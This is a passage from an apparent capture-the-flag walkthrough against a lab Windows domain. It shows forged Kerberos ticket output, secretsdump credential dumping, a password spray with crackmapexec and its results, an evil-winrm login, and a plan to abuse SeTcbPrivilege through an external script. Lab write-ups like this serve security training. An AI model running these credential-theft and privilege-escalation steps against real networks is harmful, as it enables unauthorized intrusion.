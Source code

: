 ```bash
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache

export KRB5CCNAME=Administrator.ccache

secretsdump.py ws01.sidecar.vl -k
```
## Getting a shell in DC01

Now we can crack the hash of "Deployer" with crackstation and it give to us password that we can spray on all users

```bash
cme smb 10.10.210.69 -u users.txt -p 'REDACTED' --continue-on-success
SMB         10.10.210.69    445    DC01             [*] Windows 10.0 Build 20348 x64 (name:DC01) (domain:Sidecar.vl) (signing:True) (SMBv1:False)
SMB         10.10.210.69    445    DC01             [-] Sidecar.vl\DC01$:Aces&Eights STATUS_LOGON_FAILURE
SMB         10.10.210.69    445    DC01             [-] Sidecar.vl\A.Roberts:Aces&Eights STATUS_LOGON_FAILURE
SMB         10.10.210.69    445    DC01             [-] Sidecar.vl\J.Chaffrey:Aces&Eights STATUS_LOGON_FAILURE
SMB         10.10.210.69    445    DC01             [-] Sidecar.vl\O.osvald:Aces&Eights STATUS_LOGON_FAILURE
SMB         10.10.210.69    445    DC01             [-] Sidecar.vl\P.robinson:Aces&Eights STATUS_LOGON_FAILURE
SMB         10.10.210.69    445    DC01             [-] Sidecar.vl\M.smith:Aces&Eights STATUS_LOGON_FAILURE
SMB         10.10.210.69    445    DC01             [-] Sidecar.vl\E.Klaymore:Aces&Eights STATUS_LOGON_FAILURE
SMB         10.10.210.69    445    DC01             [+] Sidecar.vl\svc_deploy:REDACTED
```
## Exploit TcbPrivilege

Just WINRM as svc_deploy and check the privileges :
```bash
evil-winrm -u 'svc_deploy' -p 'REDACTED' -i 10.10.210.69

*Evil-WinRM* PS C:\Users\svc_deploy\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                         State
============================= =================================== =======
SeMachineAccountPrivilege     Add workstations to domain          Enabled
SeTcbPrivilege                Act as part of the operating system Enabled
SeChangeNotifyPrivilege       Bypass traverse checking            Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set      Enabled
```
As we can see we have ```SeTcbPrivilege```enable, we gonna abuse of this thanks to this script that we need to compile : [https://gist.github.com/antonioCoco/19563adef860614b56d010d92e67d178](https://gist.github.com/antonioCoco/19563adef860614b56d010d92e67d178)
